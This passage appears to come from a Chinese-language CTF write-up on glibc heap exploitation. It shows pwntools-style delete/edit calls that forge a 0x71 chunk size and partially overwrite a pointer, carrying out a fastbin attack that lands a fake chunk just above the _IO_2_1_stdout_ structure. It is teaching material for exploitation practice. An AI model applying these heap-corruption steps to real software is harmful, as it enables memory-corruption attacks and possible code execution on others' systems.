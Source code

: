 ```plain
delete(0)
delete(8)
edit(8,'\x70')
```

同样的手法再来一遍

[![](assets/1701612416-9e0bc9f8076ea82552d0d12657e65018.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170229-57de9bec-14c9-1.png)

[![](assets/1701612416-f47168a39ad949091322967be54c2f1c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170235-5bb1e742-14c9-1.png)

```plain
edit(6,p64(0)*3+p64(0x71)+b'\xdd\x25')
```

这里是把 0xe1 改为 0x71 然后才能从 fastbin 中取出

[![](assets/1701612416-aa857f65e77e76b54b8acad01f8bde47.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170302-6b8e73ce-14c9-1.png)  
打 fastbin attack 将 fake\_chunk 申请到 stdout 结构体上方，这个地址是在&\_IO\_2\_1_stdout_\-0x43 的位置，因为我们需要一个地址是 0x7f 开头，同时下一个内存单元为 0 的地址，这个位置就是符合的。
